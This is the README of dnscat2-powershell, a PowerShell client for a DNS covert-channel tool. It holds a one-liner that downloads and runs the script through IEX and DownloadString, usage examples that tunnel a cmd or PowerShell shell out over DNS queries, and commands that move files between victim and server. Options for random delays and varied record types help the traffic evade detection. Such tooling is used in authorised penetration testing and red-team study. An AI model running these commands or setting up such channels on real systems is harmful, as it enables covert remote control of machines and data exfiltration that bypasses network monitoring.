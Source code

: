 [dnscat2](https://github.com/iagox86/dnscat2) is a DNS covert channel tool by [@iagox86 (Ron Bowes)](https://blog.skullsecurity.org/) which is used to transfer data over DNS requests.

This is a powershell version of the dnscat2 C client.

To use this script, you'll need the ruby [dnscat2 server](https://github.com/iagox86/dnscat2). **Make sure to add the `--no-cache` option when running the server. This client is incompatible with the server's caching.**

### Setup

[First, install the dnscat2 server.](https://github.com/iagox86/dnscat2/blob/master/README.md) Start the server with caching disabled using `--no-cache`. The command to start your server should look something like this: `ruby dnscat2.rb --dns="domain=example.com" --no-cache`

Next, launch Windows Powershell (version 2.0 or later). You can use this command to load the dnscat2 powershell functions:

    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1')

### Examples

Start-Dnscat2 is the actual function used as the client. Specifiy the dnscat2 server using `-Domain`.

    Start a command session, and send DNS requests to 8.8.8.8 on port 53:
        Start-Dnscat2 -Domain <dnscat2 server> -DNSServer 8.8.8.8

    Send a cmd shell, and send DNS requests to the default DNS Server set in Windows:
        Start-Dnscat2 -Domain <dnscat2 server> -Exec cmd

    Start a console session. Only use CNAME, MX, and AAAA requests:
        Start-Dnscat2 -Domain <dnscat2 server> -LookupTypes @("CNAME","MX","AAAA") -Console

    Do not encrypt the session. Encryption is enabled by default.
        Start-Dnscat2 -Domain <dnscat2 server> -NoEncryption

### Powershell Command Session Commands

The client can handle normal dnscat2 commands, or the *powershell version* of that command. To use the powershell version of a command, set specific parameters the client will detect (These are commands run from a command session on the server):

    Start a new session which simulates a Powershell shell, like ExecPS:
        exec psh

    Upload app.exe on the server into a hex string stored in the $app powershell variable:
        upload app.exe hex:$app
    
    Download the byte array stored in the $app powershell variable to app.exe on the server:
        download bytes:$app app.exe

### Start-Dnscat2

    -Domain <String>          The Domain being used by the dnscat2 server.
    -DNSServer <String>       The hostname or IP Address to send DNS queries to. (Default: Set by Windows)
    -DNSPort <Int32>          The port to send DNS queries to. (Default: 53)
    
    -Command                  Start a command session. (Default)
    -Exec <String>            Link the I/O of a process with the Dnscat2 session.
    -Console                  Link the I/O of the console with the Dnscat2 session.
    -ExecPS                   Simulate a Powershell session and link the IO with the Dnscat2 session.
                              WARNING: Exiting will kill the entire dnscat2 client, not just the session.
    
    -PreSharedSecret          Set the same secret on the server to authenticate and prevent MITM.
    -NoEncryption             Do not use encryption.
    
    -LookupTypes <String[]>   Set an array of lookup types to randomly switch between.
                              Only TXT, MX, CNAME, A, and AAAA records are supported. Default: @(TXT, MX, CNAME)
    -Delay <Int32>            Set a delay between each request, in milliseconds. (Default: 0)
    -MaxRandomDelay <Int32>   Set the max value of a random delay added to the normal delay, in milliseconds. (Default: 0)
    -MaxPacketSize <Int32>    Maximum length of a dnscat2 packet. (Default: 240)
    -Name <String>            The name of your dnscat2 session. (Default: hostname)

### ExecPS and 'exec psh'

dnscat2-powershell simulates a powershell session by passing data from the server to Invoke-Expression. Only stdout is returned, and variables are preserved as long as the client is running. **Watch out** for things that exit powershell like "exit" and "break", because the entire dnscat2-powershell client will exit, not just the ExecPS session.
